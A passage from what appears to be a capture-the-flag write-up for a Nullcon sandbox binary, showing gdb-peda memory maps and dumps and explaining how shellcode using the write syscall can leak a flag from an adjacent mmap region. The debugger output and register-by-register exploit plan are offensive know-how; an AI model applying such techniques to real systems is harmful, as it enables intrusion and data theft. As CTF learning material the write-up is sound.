 ```bash
0020| 0xffffd544 --> 0x0 
0024| 0xffffd548 --> 0x804a000 --> 0x8049f0c --> 0x1 
0028| 0xffffd54c --> 0x8048a52 (<__libc_csu_init+82>:   add    edi,0x1)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080489e7 in main ()
gdb-peda$ vmmap
Start      End        Perm      Name
0x08048000 0x08049000 r-xp      /home/vbox/pwn/tasks/nullcon/exploit-2/sbox
0x08049000 0x0804a000 r--p      /home/vbox/pwn/tasks/nullcon/exploit-2/sbox
0x0804a000 0x0804b000 rw-p      /home/vbox/pwn/tasks/nullcon/exploit-2/sbox
0x0804b000 0x0806c000 rw-p      [heap]
0xf7dfc000 0xf7dfe000 rw-p      mapped
0xf7dfe000 0xf7fa6000 r-xp      /lib/i386-linux-gnu/libc-2.19.so
0xf7fa6000 0xf7fa8000 r--p      /lib/i386-linux-gnu/libc-2.19.so
0xf7fa8000 0xf7fa9000 rw-p      /lib/i386-linux-gnu/libc-2.19.so
0xf7fa9000 0xf7fac000 rw-p      mapped
0xf7fac000 0xf7fb9000 r-xp      /usr/lib/i386-linux-gnu/libseccomp.so.2.1.0
0xf7fb9000 0xf7fbc000 r--p      /usr/lib/i386-linux-gnu/libseccomp.so.2.1.0
0xf7fbc000 0xf7fbd000 rw-p      /usr/lib/i386-linux-gnu/libseccomp.so.2.1.0
0xf7fd6000 0xf7fd8000 rwxp      mapped
0xf7fd8000 0xf7fdb000 rw-p      mapped
0xf7fdb000 0xf7fdc000 r-xp      [vdso]
0xf7fdc000 0xf7ffc000 r-xp      /lib/i386-linux-gnu/ld-2.19.so
0xf7ffc000 0xf7ffd000 r--p      /lib/i386-linux-gnu/ld-2.19.so
0xf7ffd000 0xf7ffe000 rw-p      /lib/i386-linux-gnu/ld-2.19.so
0xfffdd000 0xffffe000 rw-p      [stack]
gdb-peda$ x/s 0xf7fd6000
0xf7fd6000:     "AAAA\n"
gdb-peda$ x/s 0xf7fd8000
0xf7fd8000:     "d3sp3r4t3_sh3llc0d3\n"
```

We notice:

* `eax`, as predicted, points at our input
* There are two mapped regions after `libseccomp`'s memory sections
  * The first one with `rwxp` permissions, `0xf7fd6000` is in red (Don't know what that means yet) and displaying the content there (you can also use `x/20wx 0xf7fd6000`), we see our input
  * The second one with `rw-p` permissions, `0xf7fd8000` contains the flag

According to [this writeup](http://v0ids3curity.blogspot.in/2015/01/hackim-ctf-2014-exploitation-2.html) each `mmap`'ed region in current Linux ASLR is adjacent to each other, meaning that their addresses are adjacent.

This means we simply can `write` the content of this mapped region, even though we haven't leaked any addresses yet. We just have to `write` the content of our current address, stored in `eax`, plus the offset of our regions `0x2000` back to us!

We have to do the following to test this approach:

* Look up the `syscall` number from [this syscall table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html) - `4`
* Either look up the function signature [here](http://lxr.free-electrons.com/ident?i=sys_write) or just do [`man 2 write`](http://man7.org/linux/man-pages/man2/write.2.html)
* Look up the calling convention to know where the parameters are stores in x86-32/i386, e.g. [here](http://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-x86-64)
  * `eax` - syscall number (`4`)
  * `ebx` - first parameter, `fd` (`1`==[`stdout`](https://en.wikipedia.org/wiki/File_descriptor))
  * `ecx` - second parameter `buf` (`addr(ecx+0x2000)`, since `ecx` is equal `eax` when calling `eax` as seen in our `gdb-peda` output)
  * `edx` - third parameter `count` (`0x100` - write `256` bytes back to us)

